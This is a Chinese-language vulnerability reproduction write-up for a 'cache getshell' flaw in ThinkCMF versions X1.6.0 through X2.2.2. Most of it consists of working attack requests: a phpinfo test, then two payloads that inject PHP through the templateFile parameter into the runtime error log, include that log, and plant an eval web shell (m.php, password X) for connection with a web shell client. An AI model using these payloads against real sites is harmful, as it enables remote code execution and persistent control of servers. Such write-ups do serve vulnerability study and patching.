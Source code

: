 ```yaml
---
title: "ThinkCMF 缓存Getshell"
id: zhfly3137
---
```


# ThinkCMF 缓存Getshell

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2

## 三、复现过程

### 常规操作

```
http://www.0-sec.org/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die(); 
```

![image](../img/2f1f9d5122e9caa8dc0b37ab71f04ec9.png)

## 利用缓存文件getshell

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY_MM_DD.log，如当前日期为2019年12月12日，日志文件为19_12_12.log，完整路径为

```
data/runtime/Logs/Portal/19_12_12.log 
```

**payload 一**

*   首先访问

```
http://www.0-sec.org/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E 
```

*   然后请求

```
http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log 
```

*   即可在http://www.0-sec.org/根目录生成m.php，密码是X

**payload 二**

*   首先访问

```
http://www.0-sec.org/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E 
```

*   然后菜刀链接（密码也是x）

```
http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log 
```